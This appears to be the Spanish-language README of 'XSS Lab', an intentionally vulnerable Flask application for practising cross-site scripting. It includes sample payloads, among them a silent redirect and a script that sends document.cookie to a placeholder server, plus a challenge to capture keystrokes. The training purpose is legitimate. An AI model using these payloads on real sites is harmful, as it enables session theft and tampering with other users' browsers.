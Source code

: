 # [![🛡️ XSS Lab Interactive](https://img.shields.io/badge/XSS%20Lab%20Interactive-Click%20here-blue?style=for-the-badge&logo=javascript&color=green)](https://xsslabinteractive.pythonanywhere.com/)

*Plataforma colaborativa para aprender y practicar vulnerabilidades XSS de forma segura y controlada*

![GitHub license](https://img.shields.io/github/license/infernoidpl4y/XSSLab)  
![Python](https://img.shields.io/badge/Python-3.x-blue)  
![Flask](https://img.shields.io/badge/Flask-2.x-orange)  
![OWASP](https://img.shields.io/badge/OWASP-Top_10-red)  

---

## 🎯 ¿Qué es XSS Lab?
Un entorno de aprendizaje práctico para estudiantes y profesionales de ciberseguridad, diseñado para **entender y practicar la explotación de vulnerabilidades XSS (Cross-Site Scripting)** en un entorno seguro y controlado.

> "No es solo destruir... es entender cómo funciona la seguridad web"  
> - InfernoidPl4y

---

## 🔧 Características Principales
- ✅ **Vulnerable intencionalmente** para pruebas de seguridad  
- 📚 Entorno controlado para experimentación segura  
- 💬 Sistema de publicaciones con inyección XSS en campo de texto  
- 🎨 Ejemplo predefinido: `!inject` para payloads básicos  
- 📉 Datos reiniciados automáticamente cada 48 horas  
- 🌐 Desplegable en plataformas como PythonAnywhere  
- 🤝 Diseñado para aprendizaje comunitario

---

## 📦 Tecnologías Utilizadas
- 🐍 **Python** (Flask framework)
- 💻 **HTML/CSS** (Frontend interactivo)
- 🔐 Enfoque en OWASP Top 10 (XSS específicamente)

---

## 🚀 Instalación Local

### Requisitos:
- Python 3.x
- pip (Python Package Manager)

### Pasos:
```bash
# Clona el repositorio
git clone https://github.com/infernoidpl4y/XSSLab.git

# Accede al directorio
cd XSSLab

# Instala dependencias
pip install -r requirements.txt

# Ejecuta la aplicación
python app.py
```

---

## 🧪 Cómo Usarlo

1. Abre el navegador en `http://localhost:5000`
2. Crea una publicación con código XSS:
   ```html
   <script>alert('¡XSS básico!')</script>
   ```
3. **Ejemplo rápido:** Escribe `!inject` en el campo XSS para ver un payload predefinido
4. Observa el comportamiento y experimenta con diferentes payloads

---

## ⚠️ Aviso Importante
- **Solo para fines educativos**
- **No introduzcas información sensible**
- **Los datos se reinician periódicamente**

---

## 🧠 Ejemplos de Payloads para Pruebas

### Básico
```html
<script>alert('XSS')</script>
```

### Estilo Visual
```html
<style>
  body { background: red; transition: all 2s; }
</style>
```

### Redirección Silenciosa
```html
<script>window.location.href='https://example.com'</script>
```

### Captura de Cookies (Ejemplo académico)
```html
<script>
  fetch('https://tu-servidor.com/log?data='+document.cookie)
</script>
```

---

## 🧰 Desafíos Recomendados

### Nivel Principiante
- Crea una alerta que salte al cargar la página

### Nivel Intermedio
- Modifica el estilo de otra publicación

### Nivel Avanzado
- Inyecta un script que capture entradas del teclado

---

## 📸 Captura de Pantalla
![XSS Lab Demo](https://via.placeholder.com/800x500?text=XSS+Lab+Interactive+Demo)

---

## 🤝 Contribuciones
¡Las mejoras y contribuciones son bienvenidas!  
Por favor lee el [CONTRIBUTING.md](CONTRIBUTING.md) para más detalles.

---

## 📬 Contacto
InfernoidPl4y - infernoidpl4y@gmail.com  
Portfolio: [infernoidpl4y.netlify.app](https://infernoidpl4y.netlify.app)

